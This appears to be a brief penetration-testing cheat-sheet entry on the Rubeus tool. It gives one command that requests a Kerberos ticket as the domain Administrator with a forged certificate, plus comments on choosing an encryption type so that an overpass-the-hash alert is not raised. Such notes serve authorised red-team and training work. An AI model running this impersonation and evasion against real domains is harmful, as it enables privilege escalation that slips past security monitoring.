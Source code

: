 # Rubeus
Gain access and compile [Rubeus](https://github.com/GhostPack/Rubeus) on target machine. Compilation instructions can be found [here](https://github.com/GhostPack/Rubeus#compile-instructions)

Impersonate a User for [[AD-Certificate-Exploitation]]



Use Rubeus to request a TGT using the certificate to verify that the certificate is trusted - [[AD-Certificate-Exploitation]] and [[AD-Persistence-Certificates]]
```powershell
Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:$generated-cert /password:$cert-password /outfile:$output.pfx /domain:$domain /dc:$dc-ip
# /user has to match the UPN for the certificate
# set /enctype to avoid overpass-the-hash alert
# /dc: set to DC that has CA service running!
```